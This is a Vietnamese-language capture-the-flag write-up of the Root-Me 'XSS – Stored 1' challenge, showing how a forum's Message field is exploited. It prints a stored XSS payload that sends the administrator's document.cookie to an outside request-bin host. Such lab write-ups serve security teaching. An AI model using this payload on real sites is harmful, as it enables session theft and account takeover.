 # WRITE UP

## **Challenge: [XSS – Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)**

Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

<img src="./media/image1.png" style="width:4.27197in;height:3.11176in" alt="Graphical user interface, text, application, email Description automatically generated" />

Kiểm tra source thì thấy đây là một form với phương thức “POST”. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input ‘Message’:

<img src="./media/image2.png" style="width:4.17036in;height:2.37882in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image3.png" style="width:6.5in;height:1.09514in" alt="Text Description automatically generated" />

Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với <https://requestbin.in>:

<img src="./media/image4.png" style="width:6.5in;height:2.21597in" alt="Graphical user interface, application Description automatically generated" />

Như vậy, ta có một requestbin tại <https://eojx5xx99skfihj.m.pipedream.net>:

Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:

Payload: &lt;script&gt;document.write("&lt;img src='https://eojx5xx99skfihj.m.pipedream.net/"+document.cookie+"'&gt;&lt;/img&gt;");&lt;/script&gt;

<img src="./media/image5.png" style="width:5.56715in;height:2.62523in" />

<img src="./media/image6.png" style="width:6.03386in;height:1.25011in" alt="Graphical user interface, text, application Description automatically generated" />

Kiểm tra request bin, ta nhận được giá trị ADMIN\_COOKIE.

<img src="./media/image7.png" style="width:6.5in;height:1.2125in" alt="A picture containing graphical user interface Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
